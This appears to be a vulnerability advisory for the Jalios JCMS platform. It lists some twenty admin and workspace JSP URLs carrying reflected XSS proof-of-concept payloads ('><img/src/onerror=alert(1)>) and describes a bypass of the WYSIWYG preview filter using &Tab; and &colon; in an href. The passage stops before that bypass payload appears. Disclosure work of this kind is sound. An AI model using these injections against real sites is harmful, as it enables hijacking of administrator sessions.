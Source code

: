 ### Admin
- `/work/mergeDocument.jsp?redirect=%22%3E%3Cimg%2Fsrc%2Fonerror%3Dalert%28%29%3E&srcDoc=c_5010` *(srcDoc should be a valid document id)*
- `/work/mergeCategory.jsp?redirect=%22%3E%3Cimg%2Fsrc%2Fonerror%3Dalert%28%29%3E&srcCat=j_5` *(srcCat should be a valid category id)*
- `/work/editCat.jsp?redirect='><img/src/onerror=alert(1)>`
- `/work/workspace/editWorkspace.jsp?redirect='><img/src/onerror=alert(1)>`
- `/work/workspace/editWSTypeEntry.jsp?typeName=generated.Article&redirect='><img/src/onerror=alert(1)>`
- `/work/workspace/editWorkspaceType.jsp?quotaUnit='><img/src/onerror=alert(1)>`
- `/work/workspace/editWorkspaceType.jsp?quotaValue='><img/src/onerror=alert(1)>`
- `/work/caddy/publicationCaddyManager.jsp?redirect='><img/src/onerror=alert(1)>`
- `/admin/mail/adminMail.jsp?redirect='><img/src/onerror=alert(1)>`
- `/admin/mail/adminMailOpen.jsp?redirect='><img/src/onerror=alert(1)>`
- `/admin/editMember.jsp?redirect='><img/src/onerror=alert(1)>`
- `/admin/editAcl.jsp?redirect='><img/src/onerror=alert(1)>`
- `/admin/editGroup.jsp?redirect='><img/src/onerror=alert(1)>`
- `/admin/portalProfiler.jsp?name='><img/src/onerror=alert(1)>`
- `/admin/wfEditor.jsp?id="><img/src/onerror=alert(1)>`
- `/admin/fileprocessor/adminFileProcessor.jsp?actionComponent="><img/src/onerror=alert(1)>`
- `/admin/fileprocessor/adminFileProcessor.jsp?status="><img/src/onerror=alert(1)>`
- `/admin/jsync/jsync.jsp?leaderUrl="'><img/src/onerror=alert(1)>` *(JSync feature enabled)*
- `/admin/mail/adminMailOpen.jsp?fromEmail="'><img/src/onerror=alert(1)>` *(SMTP setup & Mails enabled)*
- `/admin/mail/workspaceMail.jsp?redirect='><img/src/onerror=alert(1)>` *(SMTP setup & Mails enabled)*

## WYSIWYG Filter Bypass
The page `/work/wysiwygPreview.jsp` allows for a safe preview of an HTML page using the `html` parameter. However, the following conditions must be met:
- **channel.security.wysiwyg-preview-enabled == true** *(default)*
- **channel.security.csrf.enabled == false** *(non-default)*  

```java
String html = getUntrustedStringParameter("html", null);
html = WysiwygManager.cleanHtml(html, WysiwygManager.getCleanHtmlContextMap(null, "wysiwyg-preview"));
...
<jalios:wysiwyg><%= html %></jalios:wysiwyg>
```

Most HTML attributes are stripped, making it seem difficult to bypass this filter. However, the `href` attribute is allowed as long as it does not start with `javascript:`.  
A possible bypass is to use `&Tab;` in the middle of `javascript` and `&colon;` to replace `:`. The following XSS requires clicking on the malicious `<a>` tag:

